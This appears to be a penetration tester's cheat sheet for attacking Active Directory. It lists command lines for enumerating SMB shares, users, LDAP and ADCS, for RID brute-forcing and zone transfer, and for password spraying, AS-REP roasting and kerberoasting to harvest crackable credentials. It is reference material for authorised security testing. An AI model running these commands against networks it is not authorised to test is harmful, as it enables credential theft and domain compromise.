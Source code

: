 ```yaml
---
icon: windows
---
```


# Active Directory

## No credentials

### Enumeration

```sh
nxc smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <dc_ip>
ldapsearch -x -H <dc_ip> -s base
```

### Zone transfer

{% code overflow="wrap" %}
```sh
dig axfr <domain> @<dc_ip>
```
{% endcode %}

### Shares

```bash
nxc smb <IP> -u '' -p '' --shares
nxc smb <IP> -u 'guest' -p '' --shares
```

### Enumerate users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> --users
nxc smb <dc_ip> --rid-brute 10000
```
{% endcode %}

```bash
kerbrute userenum -d <domain> <users.txt>
```

### Timeroast

{% code overflow="wrap" %}
```sh
timeroast.py <dc_ip>
```
{% endcode %}

## Valid user (no password)

### Password spray

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success
```
{% endcode %}

### ASREProast <a href="#asreproast" id="asreproast"></a>

{% code overflow="wrap" %}
```sh
nxc ldap <dc_ip> -u <users.txt> -p '' --asreproast <output.txt>
```
{% endcode %}

{% code overflow="wrap" %}
```bash
GetNPUsers.py <domain>/ -usersfile <users.txt>
```
{% endcode %}

### Blind kerberoast

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -no-preauth '<asrep_user>' -usersfile <users.txt> -dc-host <dc_ip> <domain>/
```
{% endcode %}

## Valid credentials

### List all users

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u '<user>' -p '<password>' --users
```
{% endcode %}

### Enumerate SMB shares

{% code overflow="wrap" %}
```sh
nxc smb <dc_ip> -u '<user>' -p '<password>' -M spider_plus
```
{% endcode %}

{% code overflow="wrap" %}
```sh
smbclient.py '<user>:<passwod>@<dc_ip>'
```
{% endcode %}

### BloodHound

{% code overflow="wrap" %}
```sh
bloodhound-ce-python -d '<domain>' -u '<user>' -p '<password>' [-ns '<dc_ip>'] -c All --zip
```
{% endcode %}

### Enumerate LDAP

{% code overflow="wrap" %}
```sh
ldapdomaindump.py -u '<domain>\<user>' -p '<password>' -o <output_folder> '<dc_ip>'
```
{% endcode %}

### Enumerate ADCS

{% code overflow="wrap" %}
```sh
certipy find -u '<user>@<domain>' -p '<password>' -dc-ip '<dc_ip>' -stdout
```
{% endcode %}

### Kerberoast

{% code overflow="wrap" %}
```bash
nxc ldap <dc_ip> -u '<user>' -p '<password>' --kerberoasting <output.txt>
```
{% endcode %}

{% code overflow="wrap" %}
```sh
GetUserSPNs.py -request -dc-ip <dc_ip> '<domain>/<user>:<password>'
```
{% endcode %}

{% hint style="danger" %}
If you find this error from Linux: `KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC.

{% code overflow="wrap" fullWidth="false" %}
```bash
sudo ntpdate <dc_ip>
```
{% endcode %}
{% endhint %}


